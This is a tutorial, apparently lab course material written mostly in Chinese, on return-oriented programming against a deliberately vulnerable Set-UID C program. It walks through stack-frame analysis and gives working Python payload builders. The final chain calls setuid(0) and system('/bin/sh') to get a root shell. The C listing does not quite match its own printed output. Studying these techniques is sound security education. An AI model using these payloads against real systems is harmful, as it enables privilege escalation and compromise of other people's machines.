

# Return Oriented Programming 攻击

**In the basic return-to-libc attack described in the previous section, we have shown how to chain two functions (`system ()` and `exit ()`) together**. It is not hard to see that this basic technique cannot chain more than two functions. In 2001, Nergal extended the technique so unlimited number of functions can be chained together. In 2007, Shacham further extended the technique so unlimited number of code chunks, not necessarily functions, can be chained together to accomplish intended goals. This generalized technique is called Return-Oriented Programming (ROP). 

## 一、实验环境准备

We use a revised program, which is almost the same as the one used in the basic attack. In the code, we print out the addresses of all the essential elements, so we do not need to conduct a full investigation. This is to simplify our experiments, so we can focus on the key ideas of ROP.

```c{.line-numbers}
#include<stdio.h>
#include<stdlib.h>
#include<string.h>

int foo() {
    char buffer[100];
    unsigned int *framep;
    // copy ebp into framep
    asm("movl %%ebp, %0": "=r" (framep));
    /* print out information for experiment purpose */
    printf("address of buffer[]: 0x%.8x\n", (unsigned) buffer);
    printf("frame pointer value: 0x%.8x\n", (unsigned) framep);

    /* the following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

void bar() {
    static int i = 0;
    printf("the function bar() is invoked %d times!\n", ++i);
}

void baz(int x) {
    printf("the value of baz()'s argument: 0x%.8x\n", x);
}

int main(int argc, char **argv) {
    char str[2000];
    FILE *badfile;

    char *shell = (char*) getenv("MYSHELL");
    if (shell) {
        printf("the '%s' string's address: 0x%.8x\n", shell, (unsigned int) shell);
    }

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 2000, badfile);
    foo(str);

    printf("returned properly\n");
    return 1;
}
```

在上面代码的第 9 行，**`asm("movl %%ebp, %0" : "=r" (framep));`** 表示一条 GCC 内联汇编指令，其中的 asm 关键字允许在 C 或 C++ 代码中嵌入汇编指令。基本内联汇编的格式非常简单。它的基本形式是:

```c{.line-numbers}
asm("assembly code");
/* moves the contents of ecx to eax */
asm("movl %ecx %eax");
/*moves the byte from bh to the memory pointed by eax */
__asm__("movb %bh (%eax)");
```

您可能已经注意到我在这里使用过 asm 和 **`__asm__`**。两者都有效。如果关键字 asm 与我们程序中的某些内容冲突，我们可以使用 **`__asm__`**。**<font color="red">如果我们有多个指令，我们用双引号每行写一个，并在指令后面加上 '\n' 和 '\t'</font>**。这是因为 gcc 将每个指令作为一个字符串发送至汇编器。

```c{.line-numbers}
 __asm__("movl %eax, %ebx\n\t"
          "movl $56, %esi\n\t"
          "movl %ecx, $label(%edx,%ebx,$4)\n\t"
          "movb %ah, (%ebx)");
```

在基本的内联汇编中，我们只有指令。在扩展汇编中，我们还可以指定操作数。它允许我们指定输入寄存器，输出寄存器和破坏寄存器列表。指定要使用的寄存器并不是强制性的，我们可以将这个问题留给 GCC，这可能更适合 GCC 的优化方案。无论如何，基本格式是：

```c{.line-numbers}
    asm( assembler template 
        : output operands                  /* optional */
        : input operands                   /* optional */
        : list of clobbered registers      /* optional */
        );
```

汇编程序模板由汇编指令组成。每个操作数由操作数约束字符串描述，后跟括号中的 C 表达式。**<font color="blue">冒号将汇编程序模板与第一个输出操作数分隔开，另一个冒号将最后一个输出操作数与第一个输入分开，如果有的话</font>**。逗号分隔每个组中的操作数。如果没有输出操作数但是有输入操作数，则必须在输出操作数所在的位置周围放置两个连续的冒号。举例说明：

```c{.line-numbers}
    int a=10, b;
    asm ("movl %1, %%eax; 
          movl %%eax, %0;"
          :"=r"(b)        /* output */
          :"r"(a)         /* input */
          :"%eax"         /* clobbered register */
        );       
```

这里我们做的是使用汇编指令使 'b' 的值等于 'a' 的值。以下是一些值得注意的点：

- b 是输出操作数，由 %0 引用，a 是输入操作数，由 %1 引用；
- r 是对操作数的约束。**目前 r 向 GCC 表示使用任何寄存器来存储操作数**。输出操作数约束应该有一个约束修饰符 =。而这个修饰符表示它是输出操作数并且是只写的；寄存器名称前面有两个 % 的前缀。这有助于 GCC 区分操作数和寄存器。操作数具有单个 % 作为前缀；
- 第三个冒号后的 clobbered register 列表中的寄存器 %eax 告诉 GCC，%eax 的值将在 asm 内修改，因此 GCC 不会使用该寄存器来存储任何其他值；

当 asm 的执行完成时，b 将反映更新的值，因为它被指定为输出操作数。换句话说，asm 中对 b 的改变应该反映在 asm 之外。

对于 **`asm("movl %%ebp, %0" : "=r" (framep));`** 这条汇编指令，%0 表示第一个输出操作数。"=r" (framep) 的解释，其中 = 表示这是一个输出操作数。r 表示 framep 将被分配一个通用寄存器（register），**framep 将被用来保存此 movl 汇编指令的执行结果，也就是保存 %ebp 寄存器的值**。

我们编译上述 **`stack_rop.c`** 代码并将其转换为一个具有 root 权限的 Set-UID 程序。

```shell{.line-numbers}
monica@xvm:~/csapp/chapter3$ gcc stack_rop.c -m32 -o stack_rop -fno-stack-protector -z noexecstack
monica@xvm:~/csapp/chapter3$ sudo chown root stack_rop
monica@xvm:~/csapp/chapter3$ sudo chmod 4755 stack_rop
monica@xvm:~/csapp/chapter3$ sudo sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0

monica@xvm:~/csapp/chapter3$ ./stack_rop
the '/bin/sh' string's address: 0xffffd38b
address of buffer[]: 0xffffc878
frame pointer value: 0xffffc8e8
returned properly
```

上面显示的 **`/bin/sh`** 地址、%ebp 寄存器的地址、buffer 数组的地址都会被用到后续的 ROP 攻击中，并且可以计算出 %ebp 寄存器距离 buffer 起始地址的偏移量为 112。

## 二、追踪 %esp 和 %ebp 寄存器的值

下面的表格表示了函数的 prologue 和 epilogue 中每条指令如何影响 %ebp 和 %esp 寄存器的值：

<div align="center">
    
</div>

为了让漏洞函数 **`foo()`** 返回到我们选定的函数 **`F()`**，**<font color="red">需要（借助缓冲区溢出攻击）将 `F()` 的地址放入 `foo()` 的返回地址字段。在返回过程中会执行以下两段代码：`foo()` 的函数尾声部分（返回部分）以及 `F()` 的函数序幕部分</font>**。让我们利用上述表格来跟踪 %esp 和 %ebp 寄存器的值。下面给出具体结果（假设 %ebp 的初始值为 X：*T 表示地址 T 处的值）：

<div align="center">
    
</div>

根据上述分析可以看出，在 **`foo()`** 函数返回到 **`F()`** 后，%ebp 寄存器的值从 X 变为 X+4（即增加了 4）。这种结果可以归纳为以下观察结论：

结论 1：**假设函数 **`A()`** 的返回地址字段存储了函数 **`B()`** 入口点的地址，且函数 **`A()`** 的帧指针指向地址 X。当程序从函数 **`A()`** 返回到函数 **`B()`** 后，帧指针将指向地址 X+4**。

## 三、无参数的链式函数调用

Let us chain many function calls together. **As a first step, let us assume that these functions do not have any argument**. In the code shown in Listing 5.3, we have included a function called bar (), and it does not take any argument. Let us use the return-to-libc technique to return to a chain of the bar () function calls when we return from the vulnerable foo () function.

由于 foo() 函数的返回地址字段是 %ebp 加 4，即 X + 4，我们只需要将 bar() 函数的地址放在 X + 4 处。根据结论 1，我们知道一旦我们处于 bar() 函数中（经历过 foo 函数的 epilogue 和 bar 函数的 prologue），帧指针 %ebp 的值将变为 X+4。

一旦第一个 bar() 完成，我们希望程序再次返回到 bar() 函数。因此，我们需要将 bar() 的地址放置到返回地址字段，即 %ebp + 4，也就是 X + 8。类似地，第三个 bar() 的地址应该放在 X + 12 处，依此类推。基本上，我们从 X + 4 开始在内存中放置一系列 bar() 函数的地址（对于 32 位机器每个地址为 4 字节）。

<div align="center">
    <div align="center" style="color: #F14; font-size:13px; font-weight:bold">图 3.1 badfile 文件结构</div>
    
</div>

接下来，我们使用 gdb 调试 stack_rop_dbg 程序，获取函数 bar 的基地址为 0x5655624c。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ gdb ./stack_rop_dbg -q
Reading symbols from ./stack_rop_dbg...
(gdb) b 32
Breakpoint 1 at 0x12b9: file stack_rop.c, line 32.
(gdb) r
Starting program: /home/monica/csapp/chapter3/stack_rop_dbg 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, main (argc=1, argv=0xffffd154) at stack_rop.c:32
32      char *shell = (char*) getenv("MYSHELL");
(gdb) p bar
$1 = {void ()} 0x5655624c <bar>
(gdb) 
```

接下来我们使用 chain_noarg.py 来构建上图的 badfile，

```python{.line-numbers}
import sys

def tobytes(value):
    return (value).to_bytes(4, byteorder='little')

# address of bar()
bar_addr = 0x5655624c
# address of exit()
exit_addr = 0xf7db71f0

content = bytearray(0xaa for i in range(112))
content += tobytes(0xFFFFFFFF)
for i in range(10):
    content += tobytes(bar_addr)

content += tobytes(exit_addr)

with open("badfile", "wb") as f:
    f.write(content)
```

然后运行 stack_rop 的结果如下所示，我们可以看到 bar 函数被调用了 10 次。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ ./stack_rop
0x5655624c, 0xf7db71f0
the '/bin/sh' string's address: 0xffffd383
address of buffer[]: 0xffffc868
frame pointer value: 0xffffc8d8
the function bar() is invoked 1 times!
the function bar() is invoked 2 times!
the function bar() is invoked 3 times!
the function bar() is invoked 4 times!
the function bar() is invoked 5 times!
the function bar() is invoked 6 times!
the function bar() is invoked 7 times!
the function bar() is invoked 8 times!
the function bar() is invoked 9 times!
the function bar() is invoked 10 times!
```

## 四、带参数的链式函数调用：跳过 prologue 部分

上述技术不能用于链接调用带参数的函数。从上图 3.1 中，我们可以清楚地看到，bar() 函数的地址彼此相邻放置，中间没有空隙，因此没有为任何参数留出空间。bar 函数的第一个参数本应放置在其返回地址的正上方，但该区域必须用于存储 bar 函数的另一个返回地址。

这个问题是由第二个函数序言中的第二条指令 **`mov %esp, %ebp`** 引起的。这条指令将 %ebp 值设置为 X+4，其中 X 是第一个函数的帧指针值。结果这两个函数的堆栈帧仅相隔 4 个字节。这仅足以放置一条信息，即返回地址，而没有为参数留出空间。

为了解决这个问题，其中一种方式就是跳过函数的序言部分，所以 **`mov %esp, %ebp`** 这条指令就不会被执行。下面让我们看看当函数 A 返回函数 B，但是跳过 B 的序言部分：

<div align="center">
    
</div>

从上述结果我们可以看到，在 **`A()`** 返回到 **`B()`** 之后，帧指针的值是 Y，其中 Y 是存储在地址 X 处的值。我们将观察结果总结如下：

**<font color="red">结论 2：假设函数 `A()` 的返回地址字段指向函数 `B()` 序言之后的地址（这样才能跳过 prologue）；还假设函数 `A()` 的帧指针 %ebp 指向地址 X。在程序从函数 `A()` 返回到函数 `B()` 之后，帧指针 %ebp 将指向 Y，其中 Y 是存储在地址 X 处的值</font>**。

好消息是 Y 的值是我们在缓冲区溢出期间构造的 badfile 文件内容决定的。只要我们使 X 和 Y 之间的距离足够大，我们就有足够的空间来容纳 **`A()`** 的参数。在我们的实验中，我们总是令 **`Y-X=0x20=32`**。这应该足以放置 (32-8)/4=6 个参数。在 X 和 Y 之间 32 字节的空间中，前 8 个字节需要依次存放调用链中下一个函数的帧指针 %ebp 以及下一个函数的返回地址，如下图所示。如果需要更多的参数，我们可以增加这个距离。

<div align="center">
    
</div>

基本上，我们只需要为我们希望返回的每个函数构造栈帧。它们的位置在 X、X+32、X+64 等等。我们需要确保这些值不包含任何零字节，因为任何零输入都会终止 strcpy() 的拷贝过程。如果有零字节，我们可以调整 X 和 Y 之间的距离以避免它。最终的栈布局如上图所示。

让我们在 stack_rop.c 程序中使用这种技术来调用 baz()。使用 gdb，我们可以找到 baz() 函数的地址，它是 **`0x5655628d`**。**函数序言中的前两条指令占用 3 个字节，所以如果我们想跳过这两条指令，我们应该返回** **`0x56556290`**。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ gdb ./stack_rop_dbg
Reading symbols from ./stack_rop_dbg...
(gdb) b 32
Breakpoint 1 at 0x12db: file stack_rop.c, line 32.
(gdb) r
Starting program: /home/monica/csapp/chapter3/stack_rop_dbg 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, main (argc=1, argv=0xffffd154) at stack_rop.c:32
32		printf("%p, %p\n", &bar, &exit);
(gdb) p baz
$1 = {void (int)} 0x5655628d <baz>
```

下面是用于构造 badfile 文件的 python 代码，我们从第 15 行到第 17 行为 baz() 函数构建栈帧，包括设置下一个 %ebp（基指针）值、返回地址和参数（我们使用 0xAABBCCDD）。

```python{.line-numbers}
import sys

def tobytes(value):
    return (value).to_bytes(4, byteorder='little')

baz_skip_addr = 0x56556290
exit_addr = 0xf7db71f0
ebp_foo = 0xffffc8d8

content = bytearray(0xaa for i in range(112))

ebp_next = ebp_foo
for i in range(10):
    ebp_next += 0x20
    content += tobytes(ebp_next)
    content += tobytes(baz_skip_addr)
    content += tobytes(0xAABBCCDD)
    content += b'A' * (0x20 - 3*4)

content += tobytes(0xFFFFFFFF)
content += tobytes(exit_addr)
content += tobytes(0xAABBCCDD)

with open("badfile", "wb") as f:
    f.write(content)
```

使用上述 python 文件生成的 badfile 文件的结构如下所示，实际上 foo 函数栈帧中的 **<font color="red">baz() 函数的第一个参数</font>** 没有被使用，被打印出来的是后面 9 个 baz() 函数栈帧和 1 个 exit 函数栈帧中的参数。下面详细解释一下从 baz 函数返回到 exit 函数的过程，**当倒数第 2 个 baz 函数执行时，此时 %ebp=M，会打印 M+8 地址处的参数**。接着执行此 baz 函数的 epilogue，%ebp 寄存器的值变为 Z，并且跳转到最后一个 baz 函数执行，此时会打印 Z+8 地址处的参数。接着执行此 baz 函数的 epilogue，%ebp 的值变为 0xFFFFFFFF（但是并不重要），并且跳转到 exit 函数执行。

<div align="center">
    
</div>

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ python3 chain_witharg.py 
monica@xvm:~/csapp/chapter3$ ./stack_rop_dbg
0x5655628d, 0xf7db71f0
the '/bin/sh' string's address: 0xffffd383
address of buffer[]: 0xffffc868
frame pointer value: 0xffffc8d8
the value of baz()'s argument: 0xaabbccdd
the value of baz()'s argument: 0xaabbccdd
the value of baz()'s argument: 0xaabbccdd
the value of baz()'s argument: 0xaabbccdd
the value of baz()'s argument: 0xaabbccdd
the value of baz()'s argument: 0xaabbccdd
the value of baz()'s argument: 0xaabbccdd
the value of baz()'s argument: 0xaabbccdd
the value of baz()'s argument: 0xaabbccdd
the value of baz()'s argument: 0xaabbccdd
```

prologue 跳过方法的局限性：正如 Nergal 所指出的，上述方法存在局限性。如今，库函数是通过过程链接表（Procedure Linkage Table, PLT）调用的，也就是说，我们不能直接跳转到这些函数的入口点；我们需要先跳转到 PLT 中的一个入口，该入口点会执行连接到目标库函数的重要步骤，并最终跳转到库函数。这种机制在动态链接库中被广泛使用。**<font color="red">因此，如果我们想要跳过函数序言，就必须跳过 PLT 内部的所有中间设置指令</font>**。

我们使用 gdb 的 disassemble 命令来反汇编我们的 baz() 函数和一个 libc 标准库函数 printf()。我们可以清楚地看到其中的差异，我们找不到 printf() 函数的 prologue；反汇编出来的代码是与 PLT 相关的。因此我们需要使用其他技术将这些库函数链接在一起。

```c{.line-numbers}
Reading symbols from ./stack_rop_dbg...
(gdb) b 32
Breakpoint 1 at 0x12db: file stack_rop.c, line 32.
(gdb) r
Starting program: /home/monica/csapp/chapter3/stack_rop_dbg 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, main (argc=1, argv=0xffffd154) at stack_rop.c:32
32		printf("%p, %p\n", &baz, &exit);
(gdb) disassemble baz
Dump of assembler code for function baz:
   0x5655628d <+0>:	push   %ebp
   0x5655628e <+1>:	mov    %esp,%ebp
   0x56556290 <+3>:	push   %ebx
   0x56556291 <+4>:	sub    $0x4,%esp
   0x56556294 <+7>:	call   0x56556397 <__x86.get_pc_thunk.ax>
   0x56556299 <+12>:	add    $0x2d27,%eax
   0x5655629e <+17>:	sub    $0x8,%esp
   0x565562a1 <+20>:	push   0x8(%ebp)
   0x565562a4 <+23>:	lea    -0x1f50(%eax),%edx
   0x565562aa <+29>:	push   %edx
   0x565562ab <+30>:	mov    %eax,%ebx
   0x565562ad <+32>:	call   0x56556050 <printf@plt>
   0x565562b2 <+37>:	add    $0x10,%esp
   0x565562b5 <+40>:	nop
   0x565562b6 <+41>:	mov    -0x4(%ebp),%ebx
   0x565562b9 <+44>:	leave  
   0x565562ba <+45>:	ret    
End of assembler dump.
(gdb) disassemble printf
Dump of assembler code for function printf:
   0xf7dd4520 <+0>:	endbr32 
   0xf7dd4524 <+4>:	call   0xf7eeb4a1
   0xf7dd4529 <+9>:	add    $0x1cead7,%eax
   0xf7dd452e <+14>:	sub    $0xc,%esp
   0xf7dd4531 <+17>:	lea    0x14(%esp),%edx
   0xf7dd4535 <+21>:	push   $0x0
   0xf7dd4537 <+23>:	push   %edx
   0xf7dd4538 <+24>:	push   0x18(%esp)
   0xf7dd453c <+28>:	mov    -0x11c(%eax),%eax
   0xf7dd4542 <+34>:	push   (%eax)
   0xf7dd4544 <+36>:	call   0xf7de4c80
   0xf7dd4549 <+41>:	add    $0x1c,%esp
   0xf7dd454c <+44>:	ret    
End of assembler dump.
```

## 五、带参数的链式函数调用：使用 leave 和 ret

虽然上述跳过 prologue 的方法不能用于基于 PLT（过程链接表）的函数，但我们可以对其进行调整。假设我们想从 A() 返回到函数 B()，但我们不能跳过 B() 的函数序言。让我们引入一个名为 empty() 的新函数，这个名称表明它是一个空函数，其二进制代码只包含 prologue 和 epilogue。函数 empty() 不使用 PLT，所以如果我们想的话可以跳过它的序言。

```c{.line-numbers}
      return                                  return
A() ---------->  empty(): skipping prologue ---------->  B()
```

让我们假设在函数 A() 内部帧指针的值为 X+4，存储在内存地址 X+4 处的数据为 Y。让我们来看一下帧指针值 %ebp 的变化。

- 首先，当函数 A() 返回到函数 empty() 时，跳过 empty() 函数的 prologue 部分，**<font color="red">根据结论 2，一旦进入 empty()，帧指针的值将变为 Y</font>**。
- 其次，当 empty() 返回到函数 B() 时，不跳过 B() 函数的 prologue 部分，**<font color="red">根据结论 1，帧指针的值将增加 4，即变为 Y + 4</font>**。

我们可以看到，通过上述执行序列，帧指针的值从 X+4 变为 Y+4，**其中 Y 是存储在内存地址 X+4 处的值，由于该地址存储的值由我们决定，我们可以使 Y-X 足够大，为函数 A() 的参数留出足够的空间**。

空函数 empty() 基本上由一个函数 prologue 和一个函数 epilogue 组成。如果我们在跳过其函数 prologue 的同时跳转到这个空函数，我们基本上是直接跳转到函数 epilogue。**<font color="red">因此，这里真正重要的是函数 epilogue，而不是空函数</font>**。我们可以简单地找到任何函数 epilogue，而不是依赖于一个空函数。我们将执行序列修改如下。

```c{.line-numbers}
      return                                  return
A() ---------->  any function epilogue ---------->  B()
```

上述序列使我们能够将函数 A() 和 B() 连接在一起，同时允许它们带参数。这是 Nergal 解决方案背后的基本思想，它使我们能够将任意函数连接在一起，无论它们是否通过 PLT 机制调用。因为函数 epilogue 只包含一条 leave 指令和一条 ret 指令，在 Nergal 的文章中，这个指令序列被称为 leaveret。上述序列由 A() 的 epilogue、一个 leaveret 和 B() 的 prologue 组成。%esp 和 %ebp 寄存器的变化如下图所示。

<div align="center">
    <div align="center" style="color: #F14; font-size:13px; font-weight:bold">图 5.1 %ebp 和 %esp 变化表格</div>
    
    
</div>

%ebp 和 %esp 寄存器值的变化也在下图中进行了说明。

<div align="center">
    <div align="center" style="color: #F14; font-size:13px; font-weight:bold">图 5.2 %ebp 和 %esp 变化过程图</div>
    
</div>

结论 3：假设最开始我们在函数 A() 内部，并且帧指针 %ebp 指向地址 X+4。在通过 leave 指令返回到函数 B() 后，我们有以下情况：

- 当执行完函数 B() 的 prologue 进入函数 B() 的内部时，帧指针 %ebp 指向地址 Y+4，其中 Y 是从地址 X+4 获取的值（即 A() 的帧指针所指向的地方）。参见上图 (a) 和(d)；
- 在地址 Y+4 处的内存最初存储函数 B() 的地址，leaveret 中的  ret 指令从栈顶（即地址 Y+4 处）获取一个地址，然后跳转到该地址继续执行；
- **<font color="red">在函数 B() 的 prologue 之后，地址 Y+4 处的内容被用值 Z 重写，Z 是从 Y 处获取的</font>**。函数 B() prologue 的第二条指令将 B() 的帧指针 %ebp 设置为 Y+4。因此，在 B() 函数内部，存储在帧指针 %ebp 所指向的内存中（地址 Y+4 处）的值是从其下方 4 个字节的内存（地址 Y 处）复制而来的，并且该值决定下一个栈帧的位置。参见上图 (d)；
- 因为函数 `A()` 是调用链上的函数之一，**<font color="red">所以 `A()` 的返回地址最初存储在 X+4 处，但后来被存储在 X 处的值 Y 所替换（类似于函数 `B()`）</font>**。因此，在执行缓冲区溢出攻击时，我们应该将 `A()` 的地址放置在 X+4 处，并将 Y 放在 X 处。

根据上面得出的结论，我们现在可以构建栈帧，将函数调用 **`foo()、A1()、A2()、...、An()、exit()`** 链接在一起。下图 5.3(a) 展示了如何从函数 **`Ai-1()`** 跳转到 **`Ai()`**。下图 5.3(b) 展示了如何从漏洞函数 **`foo()`** 跳转到调用链上的第一个函数 **`A1()`**。图 5.3(c) 展示了如何从最后一个函数 **`An()`** 跳转到 **`exit()`** 函数。

<div align="center">
    <div align="center" style="color: #F14; font-size:13px; font-weight:bold">图 5.3 通过 leaveret 构建函数链</div>
    
</div>

现在我们将使用 return-to-libc 技术将 libc 函数调用链接在一起。具体来说，我们将 printf() 调用链接在一起，每次调用都将打印出 MYSHELL 环境变量的内容。使用下述代码构建出的 badfile 文件结构如下所示。需要注意的是，**<font color="red">以第一个 printf 函数的栈帧结构为例，`ebp1` 为指向 leaveret 的栈帧指针，而 `ebp1+4` 才是真正指向 printf 函数的栈帧指针</font>**，由此可以得出，leaveret 下方地址才是 foo、printf 序列、exit 函数的栈帧指针真正指向的位置。

<div align="center">
    
</div>

```python{.line-numbers}
import sys

def tobytes(value):
    return (value).to_bytes(4, byteorder='little')

leaveret     = 0x5655623a
sh_addr      = 0xffffd3cb
printf_addr  = 0xf7dd4520
exit_addr    = 0xf7db71f0
ebp_foo      = 0xffffc888

content = bytearray(0xaa for i in range(112))

ebp_next = ebp_foo + 0x20
content += tobytes(ebp_next)
content += tobytes(leaveret)
content += b'A' * (0x20 - 2*4)

for i in range(20):
    ebp_next += 0x20
    content += tobytes(ebp_next)
    content += tobytes(printf_addr)
    content += tobytes(leaveret)
    content += tobytes(sh_addr)
    content += b'A' * (0x20 - 2*4)

content += tobytes(0xFFFFFFFF)
content += tobytes(exit_addr)

with open("badfile", "wb") as f:
    f.write(content)
```

使用上述代码生成 badfile 文件后，再运行 stack_rop 程序得到如下结果，可以看到 **`/bin/sh`** 被打印出 20 次。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ ./stack_rop
printf: 0xf7dd4520, exit: 0xf7db71f0
foo: 0x565561dd
address of buffer[]: 0xffffc888
frame pointer value: 0xffffc8f8
bin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bash
```

It should be noted that even for the same program, if we change it from a Set-UID program to a non-Set-UID program, the libc library may not be loaded into the same location. Therefore, when we debug the program, we need to debug the target Set-UID program; otherwise, the address we get may be incorrect.

## 六、参数中带零的链式函数调用

在可以将任意函数链接在一起之前，还有一个问题需要解决，那就是许多函数调用的参数为零。使用 return-to-libc 技术时，我们利用缓冲区溢出攻击在栈上放置 0。如果内存复制是通过 strcpy() 进行的，在将 badfile 文件的内容复制到栈上时，复制会被这个参数 0 终止，0 之后的数据就不会被复制。

一旦我们知道如何将任意的函数调用链接在一起，我们就可以 **<font color="red">通过函数调用（例如 strcpy()、sprintf() 等）在栈上动态放置零来解决这个问题</font>**。我们将在实验中使用 sprintf()。

```c{.line-numbers}
// 将字符串从地址 src 复制到地址 dst 处的内存中，包括终止空字节（'\0')
sprintf(char *dst, char *src):
```

如果地址 src 指向一个空字符串，即只包含一个空字节 '\0' 的字符串，sprintf() 函数将把此空字节 '\0' 复制到目标内存 dst。利用这种方法，我们可以一次将一个字节的内存地址设置为零，**因此如果要将内存中的一个 4 字节 integer 设置为零，我们只需可以以 T、T+1、T+2 和 T+3 作为目标地址 4 次动态调用 sprintf() 函数，其中 T 是目标整数的内存地址**。

现在假如我们要调用 setuid(0)，在存储 setuid() 函数的第一个参数的地方，我们使用 T 表示参数的地址；该参数是一个 integer 4 字节整数。我们首先放入一个非零值到 T 的位置。在调用 setuid() 函数之前，我们四次调用 sprintf() 函数将 '\0' 字节写入地址 T、T+1、T+2 和 T+3，这实际上将 setuid 的第一个参数改变为零。而字符串 "/bin/sh" 的末尾包含一个零字节 '\0'，所以我们只需要计算出它的地址即可。完整的函数调用链如下所示：

```c{.line-numbers}
foo() --> sprintf(T, S) --> sprintf(T+1, S) --> sprintf(T+2, S) --> sprintf(T+3, S) --> setuid(0) --> system("/bin/sh") --> exit()
```

在 Ubuntu中，**`/bin/sh`** 实际上是一个指向 **`/bin/dash`** 的链接文件。dash 实现了一个保护机制，**<font color="red">当它发现自己在一个 Set-UID 进程中运行时，会立刻把有效用户 ID 变成实际用户 ID，主动放弃特权，即 dash 或者 bash 发现有效用户 ID 和实际用户 ID 不一致时，他们会立刻将有效用户 ID 修改成实际用户 ID</font>**。这种做法是很好的，因为在 Set-UID 进程中运行 shell 程序是相当危险的，这也是无法得到 root 权限的原因，Bash 也实现了同样的保护机制。

因此我们可以在执行 dash 或者 bash 之前调用 setuid(0) 系统调用将真实用户 ID 修改为 0。这是因为在执行上述函数调用链时，漏洞程序是一个 Setuid 程序，并且程序的实际拥有者为 root，这就使得程序的有效用户 ID 为 root，而访问控制是通过有效用户来开展的，这就使得漏洞程序拥有超级用户特权。因此调用 setuid(0) 会将实际用户 ID、有效用户 ID，以及保存的设置用户 ID 设置为参数 uid。从而避免了上述 bash/dash 的保护机制。

## 七、使用调用链技术获取 root Shell

现在我们使用第 6 节提到的如下调用链来构造 badfile 文件。

```c{.line-numbers}
foo() --> sprintf(T, S) --> sprintf(T+1, S) --> sprintf(T+2, S) --> sprintf(T+3, S) --> setuid(0) --> system("/bin/sh") --> exit()
```

而现在主要的问题是算出 setuid() 的第一个参数的地址。在我们的构造中，我们将每个函数调用的栈帧相隔 0x20 字节，所以如果 foo() 的栈帧在 X（即 foo 函数栈帧指针 %ebp 的值是 X），那么第一个 sprintf 函数的栈帧将在 **`X+4+0x20`**，第二个函数将在 **`X+4+0x40`**，依此类推。setuid() 函数是调用链中的第 5 个函数，所以它的栈帧将在 **`X+4+5*0x20`**。由于函数的第一个参数总是在 %ebp+8 位置，因此 setuid() 的参数的地址将是 **`X+12+5*0x20`**。我们还需要算出 /bin/sh 字符串中的零字节的地址。

```python{.line-numbers}
import sys

def tobytes(value):
    return (value).to_bytes(4, byteorder='little')

content = bytearray(0xaa for i in range(112))

sh_addr      = 0xffffd38c
leaveret     = 0x56556263
sprintf_addr = 0xf7dd4580
system_addr  = 0xf7dc4cd0
exit_addr    = 0xf7db71f0
ebp_foo      = 0xffffc8e8
setuid_addr  = 0xf7e5ad30

sprintf_arg1 = ebp_foo + 12 + 5*0x20
sprintf_arg2 = sh_addr + len("/bin/sh")

ebp_next = ebp_foo + 0x20
content += tobytes(ebp_next)
content += tobytes(leaveret)
content += b'A' * (0x20 - 2*4)

for i in range(4):
    ebp_next += 0x20
    content  += tobytes(ebp_next)
    content  += tobytes(sprintf_addr)
    content  += tobytes(leaveret)
    content  += tobytes(sprintf_arg1)
    content  += tobytes(sprintf_arg2)
    content  += b'A' * (0x20 - 5*4)
    sprintf_arg1 += 1

ebp_next += 0x20
content  += tobytes(ebp_next)
content  += tobytes(setuid_addr)
content  += tobytes(leaveret)
content  += tobytes(0xFFFFFFFF)
content  += b'A' * (0x20 - 4*4)

ebp_next += 0x20
content  += tobytes(ebp_next)
content  += tobytes(system_addr)
content  += tobytes(leaveret)
content  += tobytes(sh_addr)
content  += b'A' * (0x20 - 4*4)

content  += tobytes(0xFFFFFFFF)
content  += tobytes(exit_addr)

with open("badfile", "wb") as f:
    f.write(content)
```

运行上述 pyuthon 文件生成的 badfile 文件，然后运行 ./stack_rop 二进制程序，得到的结果如下：

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ python3 chain_attack.py 
monica@xvm:~/csapp/chapter3$ ./stack_rop
sprintf: 0xf7dd4580, system: 0xf7dc4cd0, exit: 0xf7db71f0, setuid: 0xf7e5ad30
the '/bin/sh' string's address: 0xffffd38c
foo: 0x565561ed
address of buffer[]: 0xffffc878
frame pointer value: 0xffffc8e8
# 
```